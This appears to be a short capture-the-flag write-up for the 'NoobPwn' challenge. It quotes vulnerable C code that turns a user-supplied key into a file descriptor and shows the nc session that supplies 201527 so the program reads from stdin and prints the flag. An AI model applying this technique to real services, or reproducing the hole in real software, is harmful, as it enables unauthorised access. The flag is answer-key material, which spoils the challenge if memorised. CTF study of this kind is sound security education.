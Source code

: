 # NoobPwn
Pwn - 30 points

## Challenge 
> Getting tired of pwn? How about an easier one?
nc pwn2.chal.gryphonctf.com 17346

> Creator - @LFlare


[noobpwn-a927b91937e19b93cb50f4a96ad82667.c](noobpwn-a927b91937e19b93cb50f4a96ad82667.c)

[noobpwn-redacted-564e969dbbe6bbd0da1c3e1064b379a5](noobpwn-redacted-564e969dbbe6bbd0da1c3e1064b379a5)

## Solution


Vulnerability is that we can control the file descriptor pointer `fd`.

    printf("Key? ");
    scanf("%d", &key);

    // Create file descriptor
    int fd = key - 0x31337;
    int len = read(fd, buf, 32);

Set `fd = 0` to make it read from `stdin`.
(Also since `scanf` takes in decimal, `0x31337` = `201527`)

	$ nc pwn2.chal.gryphonctf.com 17346
	Key? 201527
	GIMMEDAFLAG
	GCTF{f1l3_d35cr1p70r5_4r3_n457y}

## Flag
`GCTF{f1l3_d35cr1p70r5_4r3_n457y}`